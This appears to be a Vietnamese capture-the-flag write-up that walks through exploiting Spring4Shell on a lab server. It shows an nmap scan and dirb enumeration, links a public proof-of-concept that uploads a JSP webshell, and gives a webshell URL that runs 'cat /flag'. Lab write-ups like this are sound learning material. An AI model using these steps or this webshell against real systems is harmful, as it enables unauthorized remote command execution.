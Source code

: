 # Recon
```
nmap -sV -sC -oA nmap/hpny 158.247.230.159 
```
![image](https://user-images.githubusercontent.com/23620659/206842620-0144ff9e-ac35-4967-a4c7-80dd772e8809.png)

# Truy cập địa chỉ http://158.247.230.159:8080
![image](https://user-images.githubusercontent.com/23620659/206842658-f0203966-3345-4a5f-9236-a8f4646c6a9a.png)

# Tìm các đường dẫn ẩn bằng dirb
![image](https://user-images.githubusercontent.com/23620659/206849130-5fe63919-8571-4fe3-ab39-afe8fba7f2b5.png)

![image](https://user-images.githubusercontent.com/23620659/206849157-c1057303-37ae-4979-91bf-17e8a5bf27dc.png)

*giả sử từ điển sử dụng có các từ như 'springshell' và 'greeting' do không tìm được từ điển có các từ tương ứng*

# Chạy mã khai thác và tải lên webshell.
Lỗ hổng [spring4shell PoC](https://github.com/reznok/Spring4Shell-POC#instructions)\
[spring4shell.py](https://raw.githubusercontent.com/reznok/Spring4Shell-POC/master/exploit.py)

![ảnh](https://user-images.githubusercontent.com/23620659/206896522-27caf687-8d73-4b17-9ec8-622aa4904e21.png)

# Truy cập webshell 
![ảnh](https://user-images.githubusercontent.com/23620659/206896665-ec796e78-fbcd-4611-a300-d4eff87765e8.png)

# Cat flag
```
158.247.230.159:8080/reverse.jsp?cmd=cat /flag
```
![ảnh](https://user-images.githubusercontent.com/23620659/206896705-766af892-a274-4f7f-95b5-732518ae7541.png)



# Hạn chế
  - chưa tìm được các từ điển có các từ khóa đủ rộng
  - chưa biết cách kiểm tra nếu trang web bị dính lỗ hổng spring4shell
